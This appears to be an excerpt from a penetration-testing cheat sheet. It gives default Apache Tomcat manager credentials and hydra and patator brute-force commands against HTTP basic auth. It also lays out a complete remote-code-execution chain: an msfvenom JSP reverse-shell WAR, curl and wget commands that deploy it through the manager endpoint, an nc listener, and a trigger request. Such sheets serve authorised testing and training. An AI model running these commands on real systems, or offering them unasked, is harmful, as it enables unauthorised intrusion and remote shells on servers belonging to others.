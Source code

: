 ```
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

#### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

### WebDav

### HTTP brute force authentication

#### HTTP basic authentication

```
# Hydra
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15

# Patator
python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307
```
